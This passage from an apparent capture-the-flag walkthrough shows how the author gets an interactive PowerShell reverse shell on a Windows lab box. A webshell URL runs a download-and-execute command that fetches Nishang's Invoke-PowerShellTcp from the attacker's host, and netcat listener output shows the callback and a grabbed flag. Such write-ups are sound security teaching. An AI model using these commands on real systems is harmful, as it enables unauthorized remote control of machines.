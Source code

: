 ### Interactive Shell

From Webshell, it's time to get an interactive shell. I'll go with my
Windows stand-by, Nishang `Invoke-PowerShellTcp.ps1`.

1.  Make a copy of it in the local directory.
2.  Add a line to the end:
    `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 443`
3.  Start `python3 -m http.server 80` in that same directory
4.  Start `nc -lnvp 443`
5.  Visit:
    `http://10.10.10.116/upload/0xdf.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.15/Invoke-PowerShellTcp.ps1%27)`

First the webserver is hit to get `Invoke-PowerShellTcp.ps1`:



    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.116 - - [14/Jan/2019 09:49:41] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -



Then `nc` gets the callback:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.116.
    Ncat: Connection from 10.10.10.116:49675.
    Windows PowerShell running as user CONCEAL$ on CONCEAL
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.

    PS C:\Windows\SysWOW64\inetsrv>whoami
    conceal\destitute



From there, grab the user flag, named `proof.txt`:



    PS C:\users\destitute\desktop> dir


        Directory: C:\users\destitute\desktop


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----       12/10/2018     23:58             32 proof.txt


    PS C:\users\destitute\desktop> type proof.txt
    6E9FDFE0...



### Script It
